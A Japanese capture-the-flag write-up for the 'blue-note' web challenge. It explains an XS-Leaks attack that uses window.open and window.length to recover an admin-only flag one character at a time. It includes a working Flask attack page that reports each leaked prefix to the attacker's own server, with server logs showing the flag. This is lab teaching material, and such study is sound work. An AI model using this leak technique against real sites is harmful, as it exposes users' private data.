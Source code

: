 # blue-note:Web:100pts
🎷🎶  

[blue-note.tar.gz](blue-note.tar.gz)  

Challenge: [http://34.170.146.252:15993](http://34.170.146.252:15993), Admin bot: [http://34.170.146.252:59345](http://34.170.146.252:59345)  

Challenge: [http://34.170.146.252:22481](http://34.170.146.252:22481), Admin bot: [http://34.170.146.252:42319](http://34.170.146.252:42319)  

# Solution
ソースファイルとURLが二つ(バックアップインスタンスのURLも二つ)渡される。  
ChallengeのURLにアクセスすると、noteをサーチできるサイトのようだ。  
![site1.png](site/site1.png)  
Admin BotがあるためXS系だろうとにらむ。  
bot.jsのソースは以下の通りであった。  
```js
import puppeteer from "puppeteer";

const APP_HOST = "web";
const APP_PORT = "3333";
export const APP_URL = `http://${APP_HOST}:${APP_PORT}`;

const sleep = async (ms) => new Promise((resolve) => setTimeout(resolve, ms));

export const visit = async (url) => {
  console.log(`start: ${url}`);

  const browser = await puppeteer.launch({
    headless: "new",
    executablePath: "/usr/bin/google-chrome-stable",
    args: [
      "--no-sandbox",
      "--disable-dev-shm-usage",
      "--disable-gpu",
      '--js-flags="--noexpose_wasm"',
    ],
  });

  const context = await browser.createBrowserContext();

  try {
    const page = await context.newPage();
    await page.goto(`${APP_URL}/admin?secret=${process.env.ADMIN_SECRET}`, { timeout: 5 * 1000 });
    await page.goto(url, { timeout: 120 * 1000 });
    await page.click("button");
    await sleep(120 * 1000);
    await page.close();
  } catch (e) {
    console.error(e);
  }

  await context.close();
  await browser.close();

  console.log(`end: ${url}`);
};
```
競技者が知りえない`secret`をクエリに付加して`/admin`にアクセスした後に、任意のURLを開いて長時間`sleep`している。  
謎のボタンクリックもあるが、時間から見てもXS-Leaksのようだ。  
Challengeのindex.jsソースも見ると、以下の通りであった。  
```js
import Fastify from "fastify";
import view from "@fastify/view";
import fastifyCookie from "@fastify/cookie";
import ejs from "ejs";

const fastify = Fastify();

const notes = [
  { id: 1, title: "Note 1", content: "This is a note", adminOnly: false },
  { id: 2, title: "Note 2", content: "This is another note", adminOnly: false },
  { id: 3, title: "Flag", content: process.env.FLAG, adminOnly: true },
];

fastify.register(fastifyCookie, {
  secret: process.env.COOKIE_SECRET,
  parseOptions: {},
});

fastify.register(view, {
  engine: { ejs },
  root: "views",
});

const isAdmin = (req) => {
  const { valid, value } = req.unsignCookie(req.cookies.authenticated || "");
  return valid && value === "true";
}

fastify.get("/", async (req, res) => {
  const q = String(req.query.q);
  if (!q)
    return res.viewAsync("index.ejs", { notes: {} });
  const filteredNotes = notes.filter(note =>
    (note.title.includes(q) || note.content.includes(q)) &&
    (!note.adminOnly || isAdmin(req))
  );
  return await res.viewAsync("index.ejs", { notes: filteredNotes });
});

fastify.get("/note/:id", async (req, res) => {
  const { id } = req.params;
  const note = notes.find(note => note.id === Number(id) && (!note.adminOnly || isAdmin(req)));
  if (!note)
    return res.redirect("/");
  return await res.viewAsync("note.ejs", { note });
});

fastify.get("/admin", async (req, res) => {
  const secret = String(req.query.secret);
  if (secret === process.env.ADMIN_SECRET) {
    res.setCookie("authenticated", "true", { path: "/", httpOnly: true, signed: true });
    return res.redirect("/");
  }
  res.code(401).send(":(");
});

fastify.listen({ port: 3333, host: "0.0.0.0" });
```
Botが最初にアクセスする`/admin`では、クエリ`secret`が正しい場合にのみ`authenticated`なるcookieが`true`に設定される(`httpOnly`で`signed`)。  
これはAdmin Bot用で、XSSなどで`secret`を取得するのは難しそうだ。  
`/`へのアクセスでは、クエリ`q`で`notes`を検索でき、`authenticated`なcookieが`true`(つまりAdmin Bot)である場合に`Flag`というnoteが検索結果に含まれる。  
もう一度ChallengeのURLへアクセスし、すべてのnoteに含まれるであろう文字`a`を検索してみる(`?q=a`となる)。  
![site2.png](site/site2.png)  
Admin Botのみが検索できる`Flag`というnoteを除く、二件がヒットした。  
配布されたソースのindex.ejsを見てもわかるが、iframeで検索結果が埋め込まれるようだ。  
ここで`Flag`というnoteには`Alpaca{`という文字列が含まれているはずなので、`?q=Alpaca{`とするとAdmin Botの検索ではヒットするが我々の検索ではヒットしない。  
好きな文字列での検索をAdmin Botで行った際の、検索結果の有無が分かればフラグが一文字ずつ特定できそうだ。  
まとめると、Admin Botを自身のサイトのURLへアクセスさせ、検索を行わせたのちに、検索結果に`Flag`というnoteが含まれるかどうかを検知すればよい。  
別ページから参照できる`window.length`で、iframeの数を検知するXS-Leaksテクニックがよく知られている。  
以下のようなleak.pyで攻撃ページを立ち上げて、一文字ずつリークする。  
```python
from flask import Flask, request

app = Flask(__name__)

flag = "Alpaca{"
# flag = "Alpaca{B.EV4N5"


@app.route("/")
def top():
    return f"""
<!doctype html>
<html>
    <head>
        <title>XS-Leaks</title>
    </head>
    <body>
        <button id="satoki">button</button>
        <script>
            (async function() {{
                
                function sleep(ms) {{
                    return new Promise(resolve => setTimeout(resolve, ms));
                }}

                const baseUrl = 'http://web:3333/?q=';
                const alphabet = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!?-_{{}} ';
                var flag = '{flag}';

                for (let i = 0; i < alphabet.length; i += 5) {{
                    const chunk = alphabet.slice(i, i + 5);
                    const sites = [];

                    for (const ch of chunk) {{
                        const site = window.open(baseUrl + encodeURIComponent(flag + ch));
                        sites.push({{ site, ch }});
                    }}

                    await sleep(2000);

                    for (const {{ site, ch }} of sites) {{
                        if (site.length === 1) {{
                            flag += ch;
                            fetch('/?ok=' + flag);
                        }}
                        site.close();
                    }}
                }}
            }})();
        </script>
    </body>
</html>
"""


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)
```
攻撃ページへの埋め込みiframeではcookieが付加されないので、`window.open`を用いる。  
また、buttonが無いとAdmin Botがボタンクリックできずにエラーで落ちるので注意する。  
Admin Botに報告すると以下のようなリクエストが届く。  
```
34.170.146.252 - - [01/Mar/2025 01:02:01] "GET / HTTP/1.1" 200 -
34.170.146.252 - - [01/Mar/2025 01:02:02] "GET /favicon.ico HTTP/1.1" 404 -
34.170.146.252 - - [01/Mar/2025 01:02:04] "GET /?ok=Alpaca{B HTTP/1.1" 200 -
```
`Alpaca{B`がリークできた。  
leak.pyの`flag`変数を更新して、Admin Botへの報告を繰り返す(自動化も可能だがBotがよく落ちる)。  
```
34.170.146.252 - - [01/Mar/2025 02:03:05] "GET / HTTP/1.1" 200 -
34.170.146.252 - - [01/Mar/2025 02:03:06] "GET /favicon.ico HTTP/1.1" 404 -
34.170.146.252 - - [01/Mar/2025 02:03:47] "GET /?ok=Alpaca{B.EV4N5} HTTP/1.1" 200 -
```
繰り返すとflagが得られた。  
ちなみに謎のボタンクリックはポップアップを許可するためにつけたらしい(作問者談)。  

## Alpaca{B.EV4N5}